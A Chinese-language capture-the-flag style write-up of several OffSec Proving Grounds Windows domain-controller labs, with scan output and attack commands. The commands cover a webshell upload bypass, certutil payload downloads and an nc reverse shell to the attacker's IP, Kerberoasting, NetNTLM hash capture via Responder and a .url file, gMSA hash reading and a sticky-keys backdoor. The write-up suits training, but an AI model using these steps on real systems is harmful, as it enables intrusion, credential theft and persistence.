









# PG_win_WriteUp

本文按照：https://docs.google.com/spreadsheets/u/0/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview?pli=1#   循序进行刷题

| 平台 | 题目                       | 是否完成        |
| ---- | -------------------------- | --------------- |
| PG   | Access                     | √               |
| PG   | Heist                      | √               |
| PG   | Vault                      | √               |
| PG   | Nagoya                     | √               |
| PG   | Hokkaido (Retired for now) | √               |
| PG   | Resourced                  | √(在pg_win做过) |
| PG   | Hutch                      | √(在pg_win做过) |

靶场代理实在太慢了，建议openvpn配置文件添加

```
socks-proxy 172.16.1.1 7890
```

## Access

信息收集：

```
root@iZt4nbifrvtk7cy11744y4Z:~# nmap -p- -Pn -A -sS -T4 192.168.133.187
Starting Nmap 7.80 ( https://nmap.org ) at 2025-03-13 18:11 CST
Nmap scan report for 192.168.133.187
Host is up (0.0029s latency).
Not shown: 65508 closed ports
PORT      STATE SERVICE       VERSION
53/tcp    open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
80/tcp    open  http          Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7
|_http-title: Access The Event
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-03-13 10:11:52Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: access.offsec0., Site: Default-First-Site-Name)
443/tcp   open  ssl/http      Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7
|_http-title: Access The Event
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: access.offsec0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49671/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49701/tcp open  msrpc         Microsoft Windows RPC
49785/tcp open  msrpc         Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=3/13%Time=67D2AF6D%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=3/13%OT=53%CT=1%CU=37301%PV=Y%DS=4%DC=T%G=Y%TM=67D2B06
OS:5%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=10E%TI=I%CI=I%TS=U)OPS(O1=M
OS:54ENW8NNS%O2=M54ENW8NNS%O3=M54ENW8%O4=M54ENW8NNS%O5=M54ENW8NNS%O6=M54ENN
OS:S)WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%DF=Y%T=80%
OS:W=FFFF%O=M54ENW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=
OS:N)T3(R=N)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=
OS:0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T
OS:7(R=N)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE
OS:(R=N)

Network Distance: 4 hops
Service Info: Host: SERVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -1s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-03-13T10:14:24
|_  start_date: N/A

TRACEROUTE (using port 256/tcp)
HOP RTT     ADDRESS
1   2.74 ms 192.168.45.1
2   2.73 ms 192.168.45.254
3   3.00 ms 192.168.251.1
4   3.18 ms 192.168.133.187

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 270.97 seconds
```

收集到域名为：access.offsec

80和443http/https服务东西是一样的


5985和47001开放的http服务访问为404，dirsearch扫描80端口服务


有一个uploads目录并且开启了index of，回头对smb进行收集，使用enum4linux和smbmap均为找到有效信息


又回来翻http了，在购买处有上传点


上传`.user.ini`成功

```
auto_prepend_file=upshell1.jpg
```

然后上传upshell1.jpg的shell文件，但是没有解析，尝试`.htaccess`也成功上传

```
<IfModule mime_module>
AddType application/x-httpd-php .jpg
</IfModule>
```

（从图片看出来我绕过多么努力了吧。。。。


在访问上传的upshell1.jpg的shell文件成功解析（也就是只能用.htaccess绕过


反弹shell


shell权限是`access\svc_apache`，（做到这里突然想起来一个工具`rlwrap`，这个工具会让反弹shell变得更可控

使用命令重新获取shell

```
rlwrap nc -lnvp 80 
```

`whoami /priv`未发现可利用权限


通过net user发现还存在mssql用户


上传PowerView对svc_mssql用户信息收集（我一般会保存在\Windows\Temp下面，但是这个貌似没权限，Public目录一般用户也是可写的，上传到这里先

```
certutil -split -urlcache -f http://192.168.45.161:90/ps1/PowerView.ps1 PowerView.ps1
import-module .\PowerView.ps1
Get-netuser svc_mssql
```


`serviceprincipalname`字段有只就证明注册了SPN，上传Rubeus.exe尝试获取用户`svc_mssql`的TGS

```
certutil -split -urlcache -f http://192.168.45.161:90/Rubeus.exe Rubeus.exe
```


```
.\Rubeus.exe kerberoast /nowrap
```


使用john破解密码，拿到mssql用户的明文密码：trustno1


使用runas无法输入密码，这里使用RunasCs

```
certutil -split -urlcache -f http://192.168.45.161:90/RunasCs/RunasCs.exe RunasCs.exe
.\RunasCs.exe svc_mssql trustno1 whoami
```


成功执行whoami，让我们先看看这个用户有什么问题吗，存在SeManageVolumePrivilege权限


反弹shell

```
.\RunasCs.exe svc_mssql trustno1 "C:\Users\Public\nc.exe 192.168.45.161 86 -e cmd.exe"
```


上传SeManageVolumeExploit.exe提权

```
certutil -split -urlcache -f http://192.168.45.161:90/SeManageVolumeExploit.exe SeManageVolumeExploit.exe
.\SeManageVolumeExploit.exe
```


虽然权限是svc_mssql但是可以执行高权限命令了，拿到proof


忘了交local，去找到交了就行

## Heist

信息收集：

```
root@iZt4nbifrvtk7cy11744y4Z:~# nmap -p- -Pn -A -sS -T4 192.168.123.165
Starting Nmap 7.80 ( https://nmap.org ) at 2025-03-14 18:22 CST
Nmap scan report for 192.168.123.165
Host is up (0.0031s latency).
Not shown: 65514 filtered ports
PORT      STATE SERVICE       VERSION
53/tcp    open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-03-14 10:24:13Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: heist.offsec0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: heist.offsec0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: HEIST
|   NetBIOS_Domain_Name: HEIST
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: heist.offsec
|   DNS_Computer_Name: DC01.heist.offsec
|   DNS_Tree_Name: heist.offsec
|   Product_Version: 10.0.17763
|_  System_Time: 2025-03-14T10:26:34+00:00
| ssl-cert: Subject: commonName=DC01.heist.offsec
| Not valid before: 2025-02-21T16:53:37
|_Not valid after:  2025-08-23T16:53:37
|_ssl-date: 2025-03-14T10:27:13+00:00; 0s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8080/tcp  open  http          Werkzeug httpd 2.0.1 (Python 3.9.0)
|_http-server-header: Werkzeug/2.0.1 Python/3.9.0
|_http-title: Super Secure Web Browser
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
49704/tcp open  msrpc         Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=3/14%Time=67D403D2%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: specialized
Running (JUST GUESSING): AVtech embedded (87%)
Aggressive OS guesses: AVtech Room Alert 26W environmental monitor (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-03-14T10:26:37
|_  start_date: N/A

TRACEROUTE (using port 53/tcp)
HOP RTT     ADDRESS
1   2.03 ms 192.168.45.1
2   2.03 ms 192.168.45.254
3   2.67 ms 192.168.251.1
4   3.17 ms 192.168.123.165

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 395.50 seconds
```

收集到该域域名为`heist.offsec`

开放了5985和8080的http端口，在8080端口存在应用


右键源代码看了下，有url包含点


尝试远程文件包含但是不解析


图片马也试了下同样不解析


想起之前htb有一道题：`Flight`，记录的相关知识如下：

> 由于这是一台 Windows 机器，我们也可以尝试加载一个文件从 UNC 路径。
>
> 如果这有效，则计算机必须进行**身份验证**才能访问我们指定的共享。
>
> 此外，它将以运行 Apache 服务的用户身份进行身份验证。让我们使用一个名为Responder拦截可能发生的任何身份验证。
>
> > 通过该方法，我们可以通过nc获取到认证信息

由于我这里的kali不是直连的V*N，所以这里得下载一下：https://github.com/SpiderLabs/Responder

```
python2 Responder.py -I tun0 -v
```



触发了认证，拿到认证信息：

```
enox::HEIST:1122334455667788:1F65CC0F3D982D046CAE72A005F71A9F:0101000000000000E8AAF66D5895DB016CA3F0DF15C587C4000000000200060053004D0042000100160053004D0042002D0054004F004F004C004B00490054000400120073006D0062002E006C006F00630061006C000300280073006500720076006500720032003000300033002E0073006D0062002E006C006F00630061006C000500120073006D0062002E006C006F00630061006C00080030003000000000000000000000000030000098BF0D68BEA36AC69F27F02B4B5580B35A970EAA12F2C2D466BA29E944A8C58C0A001000000000000000000000000000000000000900260048005400540050002F003100390032002E003100360038002E00340035002E003100360031000000000000000000
```

copy到本地使用john破解


拿到凭证：enox/california

尝试使用该凭证登录smb

```
smbmap -H 192.168.123.165 -u 'enox' -p 'california'
```


有几个共享目录，都看了下，只有SYSVOL有东西

```
smbclient //192.168.123.165/SYSVOL -U 'enox'%'california' 
```


翻了翻也没找到太有用的


有账号凭证还可以尝试：evil-winrm

```
evil-winrm -i 192.168.123.165 -u 'enox' -p 'california'
```

成功登录并拿到local


用户桌面上还有一个todo.txt


记录的是关于flask的信息：

> ```
> - Flask 应用安全浏览器设置 [已完成]
> - 使用组托管服务帐户（gMSA） for apache [已完成]
> - 迁移到 Apache
> - 调试 Flask 应用 [DONE]
> - 删除 Flask 应用程序
> - 将 IT 支出文件提交给管理员。[已完成]
> ```

有说apache应用，在Users目录下发现`svc_apache$`隐藏用户，可能是突破口


使用bloodhound对域进行信息收集

```
bloodhound-python -u enox -p 'california' -d heist.offsec -ns 192.168.123.165 -c DcOnly
```

可以看到当前用户：enox和svc_apache同属于一个组


并且显示可以用gmsapasswordreader.exe读取密码（github的没编译，得自己编译一下）https://github.com/rvazarkar/GMSAPasswordReader



使用GMSAPasswordReader读取hash

```
.\GMSAPasswordReader.exe --accountname svc_apache
```


两个rc4_hmac都试了下，只有第二个能登录（用户名记得加$

```
evil-winrm -i 192.168.123.165 -u svc_apache$ -H 0C43E5AD6BC9104CFB94D56F4AECB4AB
```


信息收集发现开启了SeRestorePrivilege权限



相关解释为

> #### SeRestorePrivilege
>
> 此特权提供对任何系统文件的**写访问**权限，无论文件的访问控制列表（ACL）如何。这为提升权限打开了许多可能性，包括**修改服务**、执行DLL劫持以及通过图像文件执行选项设置**调试器**等多种技术。

意味着可以修改任何文件，之前nmap扫描开启了3389远程桌面，回想起之前了解过的`粘滞键项权限维持`：https://cloud.tencent.com/developer/article/1850743

```
cd c:\windows\system32
move sethc.exe sethc.exe.bak
ren cmd.exe sethc.exe   
```

然后使用远程桌面连接，按五下shift即可弹出system的cmd

```
rdesktop 192.168.123.165
```


拿到proof


## Vault

信息收集：

```
root@iZt4nbifrvtk7cy11744y4Z:~# nmap -p- -Pn -A -sS -T4 192.168.123.172
Starting Nmap 7.80 ( https://nmap.org ) at 2025-03-15 14:29 CST
Nmap scan report for 192.168.123.172
Host is up (0.0028s latency).
Not shown: 65515 filtered ports
PORT      STATE SERVICE       VERSION
53/tcp    open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-03-15 06:31:18Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: vault.offsec0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vault.offsec0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: VAULT
|   NetBIOS_Domain_Name: VAULT
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: vault.offsec
|   DNS_Computer_Name: DC.vault.offsec
|   DNS_Tree_Name: vault.offsec
|   Product_Version: 10.0.17763
|_  System_Time: 2025-03-15T06:33:38+00:00
| ssl-cert: Subject: commonName=DC.vault.offsec
| Not valid before: 2025-03-14T06:27:47
|_Not valid after:  2025-09-13T06:27:47
|_ssl-date: 2025-03-15T06:34:18+00:00; 0s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49703/tcp open  msrpc         Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=3/15%Time=67D51EBB%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: specialized
Running (JUST GUESSING): AVtech embedded (87%)
Aggressive OS guesses: AVtech Room Alert 26W environmental monitor (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-03-15T06:33:42
|_  start_date: N/A

TRACEROUTE (using port 135/tcp)
HOP RTT     ADDRESS
1   2.27 ms 192.168.45.1
2   2.28 ms 192.168.45.254
3   2.77 ms 192.168.251.1
4   2.92 ms 192.168.123.172

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 365.71 seconds
```

域名为：vault.offsec

对smb进行信息收集

```
smbmap -u guest -H 192.168.123.172
```


有一个不太常见的目录：`DocumentsShare`，查看

```
smbclient //192.168.123.172/DocumentsShare -N
```


没有任何东西，但是DocumentsShare目录是可写的，本地创建`test.txt`，并使用put成功上传


在一篇文章有讲到（窃取 NetNTLM 哈希值的一些有趣之处）：https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/

（但是没有smb相关的利用，看了hints直接传.url文件上去就能触发，可能是脑洞猜出来的吧，也许跟DocumentsShare有关？

```@re.url
[InternetShortcut]
URL=anything
WorkingDirectory=anything
IconFile=\\192.168.45.161\%USERNAME%.icon
IconIndex=1
```

（VPS收到认证报错不显示信息，这里还是用kali连接V*N做的


保存到本地使用john破解，得到凭证：anirudh/SecureHM


使用该账号查看smb

```
smbmap -H 192.168.159.172 -u 'anirudh' -p 'SecureHM'
```


ADMIN$目录非常吸引人，有可读权限

```
smbclient //192.168.159.172/ADMIN$ -U 'anirudh'%'SecureHM'
```



基本都是exe和dll，没有明确的入口，使用该凭证用evil-winrm成功登录

```
evil-winrm -i 192.168.159.172 -u anirudh -p SecureHM
```



拿到local


`whoami /priv`发现有SeRestorePrivilege权限，而且看了下nmap扫描开放了3389RDP


那就跟Heist一样了，直接修改黏贴键RDP登录

```
cd c:\windows\system32
move sethc.exe sethc.exe.bak
ren cmd.exe sethc.exe   
```


RDP登录。连按五下shift

```
rdesktop 192.168.159.172
```


拿到proof


## Nagoya

信息收集：

```
root@iZt4nbifrvtk7cy11744y4Z:~# nmap -p- -Pn -A -sS -T4 192.168.159.21
Starting Nmap 7.80 ( https://nmap.org ) at 2025-03-17 13:41 CST
Nmap scan report for 192.168.159.21
Host is up (0.0034s latency).
Not shown: 65513 filtered ports
PORT      STATE SERVICE           VERSION
53/tcp    open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
80/tcp    open  http              Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Nagoya Industries - Nagoya
88/tcp    open  kerberos-sec      Microsoft Windows Kerberos (server time: 2025-03-17 05:42:55Z)
135/tcp   open  msrpc             Microsoft Windows RPC
139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open  ldap              Microsoft Windows Active Directory LDAP (Domain: nagoya-industries.com0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?
3268/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: nagoya-industries.com0., Site: Default-First-Site-Name)
3269/tcp  open  globalcatLDAPssl?
3389/tcp  open  ms-wbt-server     Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: NAGOYA-IND
|   NetBIOS_Domain_Name: NAGOYA-IND
|   NetBIOS_Computer_Name: NAGOYA
|   DNS_Domain_Name: nagoya-industries.com
|   DNS_Computer_Name: nagoya.nagoya-industries.com
|   DNS_Tree_Name: nagoya-industries.com
|   Product_Version: 10.0.17763
|_  System_Time: 2025-03-17T05:45:15+00:00
| ssl-cert: Subject: commonName=nagoya.nagoya-industries.com
| Not valid before: 2025-03-16T05:41:01
|_Not valid after:  2025-09-15T05:41:01
